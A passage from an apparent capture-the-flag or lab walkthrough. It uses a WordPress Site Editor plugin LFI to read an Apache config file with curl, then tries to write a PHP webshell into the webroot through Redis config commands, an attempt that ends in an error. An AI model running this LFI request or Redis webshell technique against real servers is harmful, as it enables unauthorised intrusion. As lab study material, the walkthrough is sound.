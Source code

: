 We're connected. Maybe there is a way to gain a shell using redis. Searching the web, we find [this guide for Redis RCE](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis#redis-rce). The "Webshell" section may work for us, but we will have to know the path of the webroot.

Using the LFI vulnerability in WordPress, we can find the webroot by dumping **/etc/apache2/sites-enabled/000-default.conf**.

```
┌──(kali㉿kali)-[~]
└─$ curl http://192.168.120.85/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/apache2/sites-enabled/000-default.conf
<VirtualHost *:80>
        # The ServerName directive sets the request scheme, hostname and port that
        # the server uses to identify itself. This is used when creating
        # redirection URLs. In the context of virtual hosts, the ServerName
        # specifies what hostname must appear in the request's Host: header to
        # match this virtual host. For the default virtual host (this file) this
        # value is not decisive as it is used as a last resort host regardless.
        # However, you must set it for any further virtual host explicitly.
        #ServerName www.example.com

        ServerAdmin webmaster@localhost
        DocumentRoot /var/www/html

        # Available loglevels: trace8, ..., trace1, debug, info, notice, warn,
        # error, crit, alert, emerg.
        # It is also possible to configure the loglevel for particular
        # modules, e.g.
        #LogLevel info ssl:warn

        ErrorLog ${APACHE_LOG_DIR}/error.log
        CustomLog ${APACHE_LOG_DIR}/access.log combined

        # For most configuration files from conf-available/, which are
        # enabled or disabled at a global level, it is possible to
        # include a line for only one particular virtual host. For example the
        # following line enables the CGI configuration for this host only
        # after it has been globally disabled with "a2disconf".
        #Include conf-available/serve-cgi-bin.conf
</VirtualHost>

# vim: syntax=apache ts=4 sw=4 sts=4 sr noet
{"success":true,"data":{"output":[]}}
```

According to this file, the webroot is at **/var/www/html**. Let's try to create a webshell there using our redis access.

```
192.168.120.85:6379> config set dir /var/www/html
OK
192.168.120.85:6379> config set dbfilename test.php
OK
192.168.120.85:6379> set test "<?php system('id'); ?>"
OK
192.168.120.85:6379> save
(error) ERR
192.168.120.85:6379> 
```
